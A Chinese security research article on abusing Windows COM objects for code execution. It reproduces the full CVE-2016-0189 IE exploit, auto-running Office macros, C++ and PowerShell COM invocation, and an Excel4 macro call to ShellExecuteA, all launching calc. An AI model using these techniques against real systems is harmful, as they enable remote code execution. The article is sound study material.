

# COM对象的利用与挖掘

## 前言

&emsp;&emsp;本文在FIREEYE的研究[Hunting COM Objects](https://www.fireeye.com/blog/threat-research/2019/06/hunting-com-objects.html)的基础上，讲述COM对象在IE漏洞、shellcode和Office宏中的利用方式以及如何挖掘可利用的COM对象，获取新的漏洞利用方式。

## COM对象简述

&emsp;&emsp;COM(微软组件对象模型)，是一种独立于平台的分布式系统，用于创建可交互的二进制软件组件。 COM 是 Microsoft 的 OLE (复合文档) 和 ActiveX (支持 Internet 的组件) 技术的基础技术。

&emsp;&emsp;注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID`下，包含COM对象的所有公开的信息，图中显示了Wscript.Shell对象在注册表中的信息：


&emsp;&emsp;其中`{72C24DD5-D70A-438B-8A42-98424B88AFB8}`就是该对象的CLSID。如果将COM对象比作人的话，CLSID就相当于身份证号，每个COM对象的CLSID都是唯一且不重复的。当然，人如果只有身份证号的话，日常生活就会很不方便，于是每个人都有自己的名字。那么COM对象中的ProgID就相当于它的名字，图中的COM对象ProgID为WScript.Shell.1：


&emsp;&emsp;而InProcServer32表示该COM对象位于哪个PE文件中，图中表示WScript.Shell对象位于`C:\Windows\System32\wshom.ocx`中：


&emsp;&emsp;有了上述的信息后，接下来便可以通过这些信息去使用COM对象了。

## COM对象的利用

&emsp;&emsp;COM对象可以通过脚本语言（VBS、JS）、高级语言（C++）和powershell创建。接下来分别介绍这三种创建方式。

### 脚本语言创建COM对象

&emsp;&emsp;通过脚本语言，我们可以很轻易的创建一个COM对象，使用VBS创建Wscript.Shell对象：

```vbscript
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
```

&emsp;&emsp;运行效果如图：


&emsp;&emsp;`CreateObject`方法使用COM对象的ProgID：Wscript.Shell来创建对象，创建完成后便能调用该对象的Run方法通过cmd起calc。除了 使用ProgID，还可以使用Wscript.Shell对象的CLSID来创建：

```vbscript
Dim Shell
Set Shell = GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8")
Shell.Run "cmd /c calc.exe"
```

&emsp;&emsp;这种方法的好处是当想要创建的COM对象没有ProgID时，便可以通过CLSID进行创建。接下来对[CVE-2016-0189](https://github.com/theori-io/cve-2016-0189/blob/master/exploit/vbscript_godmode.html)的EXP进行改造，使之启动cmd执行calc：

```html
<html>
<head>
<meta http-equiv="x-ua-compatible" content="IE=10">
</head>
<body>
    <script type="text/vbscript">
        Dim aw
        Dim plunge(32)
        Dim y(32)
        prefix = "%u4141%u4141"
        d = prefix & "%u0016%u4141%u4141%u4141%u4242%u4242"
        b = String(64000, "D")
        c = d & b
        x = UnEscape(c)

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ' 2x2000 elements x 16 bytes / element = 64000 bytes
                ReDim Preserve A(1, 2000)
            End Sub
            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class
        Class Dummy
        End Class
        Function getAddr (arg1, s)
            aw = Null
            Set aw = New ArrayWrapper
            For i = 0 To 32
                Set plunge(i) = s
            Next
            Set aw.A(arg1, 2) = s
            Dim addr
            Dim i
            For i = 0 To 31
                If Asc(Mid(y(i), 3, 1)) = VarType(s) Then
                    addr = strToInt(Mid(y(i), 3 + 4, 2))
                End If
                y(i) = Null
            Next
            If addr = Null Then
                document.location.href = document.location.href
                Return
            End If
            getAddr = addr
        End Function
        Function leakMem (arg1, addr)
            d = prefix & "%u0008%u4141%u4141%u4141"
            c = d & intToStr(addr) & b
            x = UnEscape(c)
            aw = Null
            Set aw = New ArrayWrapper
            Dim o
            o = aw.A(arg1, 2)
            leakMem = o
        End Function
        Sub overwrite (arg1, addr)
            d = prefix & "%u400C%u0000%u0000%u0000"
            c = d & intToStr(addr) & b
            x = UnEscape(c)
            aw = Null
            Set aw = New ArrayWrapper
            ' Single has vartype of 0x04
            aw.A(arg1, 2) = CSng(0)
        End Sub

        Function exploit (arg1)
            Dim addr
            Dim csession
            Dim olescript
            Dim mem

            ' Create a vbscript class instance
            Set dm = New Dummy
            ' Get address of the class instance
            addr = getAddr(arg1, dm)
            ' Leak CSession address from class instance
            mem = leakMem(arg1, addr + 8)
            csession = strToInt(Mid(mem, 3, 2))
            ' Leak COleScript address from CSession instance
            mem = leakMem(arg1, csession + 4)
            olescript = strToInt(Mid(mem, 1, 2))
            ' Overwrite SafetyOption in COleScript (e.g. god mode)
            ' e.g. changes it to 0x04 which is not in 0x0B mask
            overwrite arg1, olescript + &H174

            ' Execute cmd
            Set Object = CreateObject("Shell.Application")
            Object.ShellExecute "cmd"
        End Function
        Function triggerBug
            ' Resize array we are currently indexing
            aw.Resize()

            ' Overlap freed array area with our exploit string
            Dim i
            For i = 0 To 32
                ' 24000x2 + 6 = 48006 bytes
                y(i) = Mid(x, 1, 24000)
            Next
        End Function
    </script>

    <script type="text/javascript">
        function strToInt(s)
        {
            return s.charCodeAt(0) | (s.charCodeAt(1) << 16);
        }
        function intToStr(x)
        {
            return String.fromCharCode(x & 0xffff) + String.fromCharCode(x >> 16);
        }
        var o;
        o = {"valueOf": function () {
                triggerBug();
                return 1;
            }};
        setTimeout(function() {exploit(o);}, 50);
    </script>
</body>
</html>
```

&emsp;&emsp;将EXP中如下vbs代码替换成创建Wscript.Shell即可。

&emsp;&emsp;替换前：

```vbscript
' Execute cmd
Set Object = CreateObject("Shell.Application")
Object.ShellExecute "cmd"
```

&emsp;&emsp;替换后：

```vbscript
' Execute cmd
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
```

&emsp;&emsp;最终实现效果：


&emsp;&emsp;接下来讲述COM对象在Office宏中的利用，以Office2019为例，在word文档中创建如下宏代码：

```vbscript
Sub AutoOpen()
Dim Shell
Set Shell = CreateObject("Wscript.Shell")
Shell.Run "cmd /c calc.exe"
End Sub
```

&emsp;&emsp;打开文件后，会提示宏已被禁用：


&emsp;&emsp;点击启用宏后，使用cmd起计算器：


&emsp;&emsp;用法和IE中一致，就不再赘述了。

### 通过高级语言创建COM对象

&emsp;&emsp;如果想通过高级语言（这里以C++为例）使用COM对象的话，必须要明白微软定义的COM三大接口类：[IUnknown](https://docs.microsoft.com/en-us/windows/win32/api/unknwn/nn-unknwn-iunknown)、[IClassFactory](https://docs.microsoft.com/en-us/windows/win32/api/unknwnbase/nn-unknwnbase-iclassfactory)和[IDispatch](https://docs.microsoft.com/en-us/windows/win32/api/oaidl/nn-oaidl-idispatch)。

&emsp;&emsp;COM规范规定任何组件、任何接口都必须从IUnknown继承，IUnknown内包含3个函数：QueryInterface、AddRef和Release。QueryInterface用于查询组件实现的其它接口，AddRef用于增加引用计数，Release用于减少引用计数。根据本人的理解来看，QueryInterface用来获取IClassFactory类的的接口，AddRef和Release用于控制装载后InProcServer32所在PE文件的生命周期。当引用计数大于0时，内存中始终存在一个PE文件可以创建COM对象，当引用计数等于0时，系统会将内存中的PE文件释放掉，也就无法对该COM对象进行任何操作了。

&emsp;&emsp;IClassFactory的作用是创建COM组件，通过类中CreateInstance函数即可创建一个可以使用的COM对象。有了对象还不够，必须要使用对象中的各种函数来执行功能，于是便要使用IDispatch接口类来获取函数和执行函数。

&emsp;&emsp;IDispatch叫做调度接口，IDispatch类中的GetIDsOfNames函数可以通过IClassFactory创建的COM对象的函数名获取对应的函数ID（IID），通过这个ID就可以使用IDispatch类中的Invoke函数来执行COM对象中方法。最后将相关的资源使用IUnknown->Release函数释放，即可完成一次完整的COM对象调用过程。图中所示就是具体的实现流程：



&emsp;&emsp;不过在实际使用中，并不会直接使用IUnknown接口类的函数，因为极易因为程序员的疏忽忘记释放一个接口或者多释放一个接口导致错误，因此使用图中函数CoCreateInstance就能直接创建一个类的接口。也就是说一个函数封装了IUnknown类和IClassFactory类的功能，能够简化流程。

&emsp;&emsp;下面是创建WScript.Shell对象，使用Run方法起powershell的完整代码：

```c++
#define _WIN32_DCOM
using namespace std;
#include <comdef.h>

#pragma comment(lib, "stdole2.tlb")

int main(int argc, char** argv)
{
    HRESULT hres;

    // Step 1: ------------------------------------------------
    // 初始化COM组件. ------------------------------------------

    hres = CoInitializeEx(0, COINIT_MULTITHREADED);

    // Step 2: ------------------------------------------------
    // 初始化COM安全属性 ---------------------------------------

    hres = CoInitializeSecurity(
        NULL,
        -1,                          // COM negotiates service
        NULL,                        // Authentication services
        NULL,                        // Reserved
        RPC_C_AUTHN_LEVEL_DEFAULT,   // Default authentication 
        RPC_C_IMP_LEVEL_IMPERSONATE, // Default Impersonation
        NULL,                        // Authentication info
        EOAC_NONE,                   // Additional capabilities 
        NULL                         // Reserved
    );
    // Step 3: ---------------------------------------
    // 获取COM组件的接口和方法 -------------------------
    LPDISPATCH lpDisp;
    CLSID clsidshell;
    hres = CLSIDFromProgID(L"WScript.Shell", &clsidshell);
    if (FAILED(hres))
        return FALSE;
    hres = CoCreateInstance(clsidshell, NULL, CLSCTX_INPROC_SERVER, IID_IDispatch, (LPVOID*)&lpDisp);
    if (FAILED(hres))
        return FALSE;
    LPOLESTR pFuncName = L"Run";
    DISPID Run;
    hres = lpDisp->GetIDsOfNames(IID_NULL, &pFuncName, 1, LOCALE_SYSTEM_DEFAULT, &Run);
    if (FAILED(hres))
        return FALSE;
    // Step 4: ---------------------------------------
    // 填写COM组件参数并执行方法 -----------------------
    VARIANTARG V[1];
    V[0].vt = VT_BSTR;
    V[0].bstrVal = _bstr_t(L"cmd /c calc.exe");
    DISPPARAMS disParams = { V, NULL, 1, 0 };
    hres = lpDisp->Invoke(Run, IID_NULL, LOCALE_SYSTEM_DEFAULT, DISPATCH_METHOD, &disParams, NULL, NULL, NULL);
    if (FAILED(hres))
        return FALSE;
    // Clean up
    //--------------------------
    lpDisp->Release();
    CoUninitialize();
    return 1;
}
```

&emsp;&emsp;步骤一、二都是用来初始化调用COM对象，步骤三使用了CoCreateInstance创建了WScript.Shell对象的IDispatch类接口，使用GetIDsOfNames函数获得了Run函数的ID。步骤四通过函数ID使用Invoke函数执行了Run方法起calc，最终运行的效果和IE的EXP一致，这里就不再展示了。

&emsp;&emsp;那么，如此复杂的方式相比VBS有什么好处呢？那就是可以将C++代码通过shellcode生成框架，生成后的shellcode比VBS能用在更多的地方，更加灵活，至于如何将代码转换成shellcode本文就不再讲述了。

### 通过powershell创建COM对象

&emsp;&emsp;接下来就是最后一种创建COM对象的方式：使用powershell创建COM对象。使用powershell一样可以分别通过ProgID和CLSID创建，通过```$shell = [Activator]::CreateInstance([type]::GetTypeFromProgID("WScript.Shell"))```命令即可通过ProgID创建WSH对象，而通过```$shell = [Activator]::CreateInstance([type]::GetTypeFromCLSID("72C24DD5-D70A-438B-8A42-98424B88AFB8"))```则可以通过CLSID创建，下图是通过CLSID创建后的效果：


&emsp;&emsp;通过这种创建COM对象的方式，我们便可以编写powershell脚本进行COM对象的便利了，获取计算机中大部分COM对象的方法和属性了。

## COM对象的挖掘

&emsp;&emsp;这部分的内容参考了FIREEYE的研究进行，利用powershell脚本遍历COM对象的方式成功挖掘到一种利用方式，故此分享。

### 已公开COM对象利用挖掘

&emsp;&emsp;首先需要便利系统中所有COM对象的CLSID，于是编写powershell脚本，将CLSID输出到txt文本中：

```powershell
New-PSDrive -PSProvider registry -Root HKEY_CLASSES_ROOT -Name HKCR
Get-ChildItem -Path HKCR:\CLSID -Name | Select -Skip 1 > clsids.txt
```

&emsp;&emsp;生成的clsid.txt如图所示：


&emsp;&emsp;接着利用这些clsid通过powershell创建对应的COM对象，并且使用Get-Member方法获取对应的方法和属性，并最终输出到文本中，pwoershell脚本如下：

```powershell
$Position  = 1
$Filename = "clsid-members.txt"
$inputFilename = "clsids.txt"
ForEach($CLSID in Get-Content $inputFilename) {
      Write-Output "$($Position) - $($CLSID)"
      Write-Output "------------------------" | Out-File $Filename -Append
      Write-Output $($CLSID) | Out-File $Filename -Append
      $handle = [activator]::CreateInstance([type]::GetTypeFromCLSID($CLSID))
      $handle | Get-Member | Out-File $Filename -Append
      $Position += 1
}
```

&emsp;&emsp;脚本运行期间可能会打开各种软件，甚至会退出，需要截取clsid重新运行。运行后的文本内容为：


&emsp;&emsp;通过搜索关键词：execute、exec、和run，能够发现不少可以利用的COM对象。本人由于在研究宏相关的COM利用，于是尝试了关键字ExecuteExcel4Macro，结果意外的收获到了COM对象Microsoft.Office.Interop.Excel.GlobalClass：


&emsp;&emsp;于是使用ExecuteExcel4Macro函数加载shell32.dll中的ShellExecuteA成功起calc：

```vbscript
Sub Auto_Open()
Set execl = GetObject("new:00020812-0000-0000-C000-000000000046")
execl.ExecuteExcel4Macro ("CALL(""shell32"", ""ShellExecuteA"", ""JJJCJJH"", -1, 0, ""CALC"", 0, 0, 5)")
End Sub
```


### 未公开COM对象利用挖掘

&emsp;&emsp;对于已经公开的COM对象挖掘较为容易，当面对未公开的COM对象时，就需要通过逆向挖掘利用。比如位于`C:\windows\system32\wat\watweb.dll`中的WatWeb.WatWebObject对象公开了一个名为LaunchSystemApplication的方法，在oleview中能看到需要3个参数：


&emsp;&emsp;但仅凭这些信息无法确定该方法是否能起任意进程，于是逆向查看LaunchSystemApplication，由于有调试符号，因此可以直接定位到该方法：


&emsp;&emsp;LaunchSystemApplication调用LaunchSystemApplicationInternal，进入查看发现调用了CreateProcess，有利用的可能：


&emsp;&emsp;但是可以看到调用了IsApprovedApplication方法进行校验，进入查看：


&emsp;&emsp;发现需要校验传入的字符串为slui.exe，同时会将该字符串附加到系统路径下，因此并不能随意执行进程。尽管最终没有利用成功，但是这种思路可以帮助分析其他未知的COM对象，挖掘到更多的利用方式。

## 结论

&emsp;&emsp;COM对象功能强大，灵活便捷，可以用于浏览器、脚本、Office宏和shellcode。通过powershell遍历系统中的COM对象，结合逆向分析更有可能发现未公开的利用方式。

